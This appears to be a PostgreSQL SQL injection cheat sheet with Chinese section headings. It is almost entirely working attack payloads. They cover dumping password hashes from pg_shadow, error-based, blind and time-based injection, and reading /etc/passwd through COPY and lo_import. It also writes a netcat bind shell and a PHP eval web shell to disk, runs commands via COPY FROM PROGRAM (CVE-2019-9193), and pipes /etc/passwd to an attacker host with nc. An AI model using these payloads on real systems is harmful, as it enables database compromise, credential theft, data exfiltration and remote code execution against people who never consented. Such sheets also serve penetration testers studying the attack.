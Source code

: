   ##### 注释符
  	--
	/**/  
  ##### 版本
  	SELECT version()
  ##### 当前用户
	SELECT user;
	SELECT current_user;
	SELECT session_user;
	SELECT usename FROM pg_user;
	SELECT getpgusername();
  ##### 列出用户
	SELECT usename FROM pg_user
  ##### 列出密码哈希
	SELECT usename, passwd FROM pg_shadow 
  ##### 列出数据库管理员帐户
	SELECT usename FROM pg_user WHERE usesuper IS TRUE
  ##### 列出权限
	SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
  ##### 检查当前用户是否为超级用户
	SHOW is_superuser; 
	SELECT current_setting('is_superuser');
	SELECT usesuper FROM pg_user WHERE usename = CURRENT_USER;
  ##### 数据库名
	SELECT current_database()
  ##### 列出数据库
	SELECT datname FROM pg_database
  ##### 列出表
	SELECT table_name FROM information_schema.tables
  ##### 列出字段
	SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
  ##### 基于报错类型
	,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
	,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
	,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
	,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

	' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
	' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
	' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
	' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
	XML Helper
	select query_to_xml('select * from pg_user',true,true,''); -- 将所有结果作为单行xml 返回
	select database_to_xml(true,true,''); -- 以XML形式列出当前数据库
	select database_to_xmlschema(true,true,''); -- 以XML schema形式列出当前数据库
  ##### 盲注
	' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
	' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
  ##### 基于时间盲注
	AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
	AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
  ##### 堆查询
	使用分号“;” 添加另一个查询
	http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
  ##### 读取文件
	select pg_ls_dir('./');
	select pg_read_file('PG_VERSION', 0, 200);
	select pg_read_file('postgresql.auto.conf',0,100);  行数
	早期版本不接受pg_read_file或pg_ls_dir中的绝对路径，新版本允许超管和在default_role_read_server_files组的用户读文件
	CREATE TABLE temp(t TEXT);
	COPY temp FROM '/etc/passwd';
	SELECT * FROM temp limit 1 offset 0;

	SELECT lo_import('/etc/passwd');
	SELECT lo_get(16420);
	SELECT * from pg_largeobject;
  ##### 列目录
  	select pg_ls_dir('/etc');
  ##### 写文件
	CREATE TABLE pentestlab (t TEXT);
	INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
	insert into shell values($$<?php @eval($_POST[1]);?>$$);
	SELECT * FROM pentestlab;
	COPY pentestlab(t) TO '/tmp/pentestlab';
	或
	COPY (SELECT 'nc -lvvp 2346 -e /bin/bash') TO '/tmp/pentestlab';
	copy (select '<?php phpinfo();?>') to '/var/www/html/shell.php';

	SELECT lo_from_bytea(43210, 'your file data goes in here');
	SELECT lo_put(43210, 20, 'some other data'); 
	SELECT lo_export(43210, '/tmp/testexport'); 
  ##### 命令执行
	CVE-2019–9193
	DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
	CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
	COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
	SELECT * FROM cmd_exec;                 -- [Optional] View the results
	DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
	使用 libc.so.6
	CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
	SELECT system('cat /etc/passwd | nc <attacker IP> <attacker port>');
  ##### bypass 过滤器
	使用 CHR
	SELECT CHR(65)||CHR(66)||CHR(67);
	版本>8 PostgreSQL使用$符合
	SELECT $$This is a string$$
	SELECT $TAG$This is another string$TAG$